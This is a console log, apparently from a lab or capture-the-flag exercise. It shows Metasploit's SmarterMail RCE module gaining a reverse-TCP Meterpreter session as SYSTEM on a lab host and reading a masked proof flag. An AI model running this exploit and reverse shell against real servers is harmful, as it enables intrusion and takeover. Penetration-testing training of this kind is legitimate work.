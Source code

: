 ```
msf exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.45.188:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6919.
[+] The target appears to be vulnerable.
[*] Sending stage (175686 bytes) to 192.168.247.65
[*] Meterpreter session 1 opened (192.168.45.188:4444 -> 192.168.247.65:49710) at 2023-07-06 07:24:13 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : ALGERNON
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > shell
Process 4240 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18363.815]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
84b4****************************

C:\Users\Administrator\Desktop>
```
